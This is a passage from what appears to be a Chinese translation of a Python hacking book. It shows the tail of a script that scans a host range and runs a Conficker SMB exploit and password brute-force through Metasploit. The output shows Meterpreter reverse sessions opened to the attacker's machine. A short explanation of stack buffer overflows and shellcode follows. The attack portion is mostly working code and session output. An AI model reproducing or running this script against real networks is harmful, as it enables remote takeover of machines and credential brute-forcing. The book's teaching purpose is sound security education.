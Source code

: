 ```
    lport = options.lport
    if lport == None:
        lport = '1337'
    passwdFile = options.passwdFile
    tgtHosts = findTgts(options.tgtHost)
    setupHandler(configFile, lhost, lport)
    for tgtHost in tgtHosts:
        confickerExploit(configFile, tgtHost, lhost, lport)
        if passwdFile != None:
            smbBrute(configFile, tgtHost, passwdFile, lhost, lport)
    configFile.close()
    os.system('msfconsole -r meta.rc')
if __name__ == '__main__':
    main() 
```

到目前为止我们利用的都是已知的方法攻击的。然而，没有已知的攻击方法的目标主机怎么办？你怎样建立你自己的 0day 攻击？在接下来的章节中，我们我们将建立我们自己的 0day 攻击。

```
attacker# python conficker.py -H 192.168.1.30-50 -l 192.168.1.3 -F
    passwords.txt
[+] Found Target Host: 192.168.1.35
[+] Found Target Host: 192.168.1.37
[+] Found Target Host: 192.168.1.42
[+] Found Target Host: 192.168.1.45
[+] Found Target Host: 192.168.1.47
<..SNIPPED..>
[*] Selected Target: Windows XP SP2 English (AlwaysOn NX)
[*] Attempting to trigger the vulnerability...
[*] Sending stage (752128 bytes) to 192.168.1.37
[*] Meterpreter session 1 opened (192.168.1.3:1337 -> 192.168.1.37:1087) at Sat Jun 23 16:25:05 -0700 2012
<..SNIPPED..>
[*] Selected Target: Windows XP SP2 English (AlwaysOn NX)
[*] Attempting to trigger the vulnerability...
[*] Sending stage (752128 bytes) to 192.168.1.42
[*] Meterpreter session 1 opened (192.168.1.3:1337 -> 192.168.1.42:1094) at Sat Jun 23 15:25:09 -0700 2012 
```

## 编写你自己的 0day POC 代码

上一节的 Conficker 蠕虫利用的是堆栈溢出漏洞。Metasploit 框架包含了几百种独一无二的 exploit，你可能碰到要你自己写的远程代码执行的 exploit 的代码。这一节我们将讲解怎样用 Python 简化这一过程。为了做到这些，我们要开始讲解缓冲区溢出的知识。

Morris 蠕虫成功的部分原因是 Finger 服务的堆栈缓冲区溢出的漏洞利用。这类攻击的成功是因为程序验证用户输入的失败所导致。尽管 Morris 蠕虫在 1988 年利用了堆栈缓冲区溢出漏洞，直到 1996 年 Elias Levy 才发表了一篇学术论文为“Smashing the Stack for Fun and Profit”在 Phrack 杂志上。如果你对堆栈缓冲区溢出攻击的原理不熟悉的话，想了解更多，可以仔细阅读这篇文章。就我们的目的而言，我们会花时间讲解堆栈缓冲区溢出攻击的关键技术。

## 基于堆栈的缓冲区溢出攻击

对于堆栈缓冲区溢出来说，未经检查的用户数据覆盖了下一个指令 EIP 从而控制程序的流程。Exploit 直接将 EIP 寄存器指向攻击者插入 ShellCode 的位置。一系列的机器代码 ShellCode 能允许 exploit 在目标系统里增加用户，连接攻击者或者下载一个独立的可执行文件。ShellCode 有无尽的可能性存在，完全取决于内存空间的大小。
